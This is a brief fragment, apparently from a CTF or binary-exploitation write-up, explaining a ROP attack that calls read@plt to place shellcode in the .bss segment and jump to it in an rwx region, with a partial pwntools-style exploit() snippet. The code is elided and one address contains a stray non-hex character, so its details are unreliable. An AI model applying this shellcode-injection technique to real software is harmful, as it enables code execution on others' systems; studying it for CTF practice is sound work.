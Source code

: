 # Exploit Works  
Because your binary has all the gadgets you need, take advantage of the simple ROP technique with the gadget.  

```python  
def exploit():
  …
	p1 += flat(elf.plt['read'], p3r, 0, elf.bss() + 0x500, len(shellcode) + 1)
	p1 += flat(elf.bss() + 0x500)
  …
```

and write Shellcodes in rwx segment (0x0804a000-0x0804ㅠ000), call it
